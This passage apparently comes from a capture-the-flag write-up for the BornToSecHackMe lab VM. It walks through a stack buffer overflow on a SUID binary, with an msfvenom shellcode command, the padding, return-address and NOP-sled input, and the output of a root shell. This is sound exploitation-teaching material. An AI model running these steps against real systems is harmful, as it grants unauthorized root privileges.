 Choose your options with:

```bash
$> msfvenom -p payload --list-options
```
We will set several options and generate our payload with:
```bash
$> msfvenom -p linux/x86/exec -n 32 -f raw -o payload.txt PrependSetuid=true PrependSetresuid=true VERBOSE=true NullFreeVersion=true CMD="/bin/bash -p"
```

Now we can find our payload in the file `payload.txt`.

#### Final input

To get our final input we will concatenate all those things:     
Set args like this:    
```
(gdb) set args "$(python -c 'print "A" * OFFSET')$(printf INPUTSTARTADDRESS)$(python -c 'print "\x90" * NOP_SIZE')$(cat PAYLOAD_FILE)"
``` 


Replacing all of it and we have our final input string that should give us a shell without extra-privileges because of gdb removing SUID permissions :
```
(gdb) set args "$(python -c 'print "A" * 140')$(printf "\xf0\xf5\xff\xbf")$(cat payload.txt)"
``` 

But if we run it ouside gdb, in a standard shell, we get a root shell:
```
zaz@BornToSecHackMe:~$ ./exploit_me "$(python -c 'print "A" * 140')$(printf "\x20\xf6\xff\xbf")$(python -c 'print "\x90" * 64')$(cat payload.txt)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ����������������������������������������%-,�H���1�1��㰤̀1�jX̀1�������ֹ@�Ԩ����B$/f'���
                       Rfh-c����
                                �Rh//shh/bin��RVWS��̀�����/bin/bash -p
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```

And now we have a root shell !!

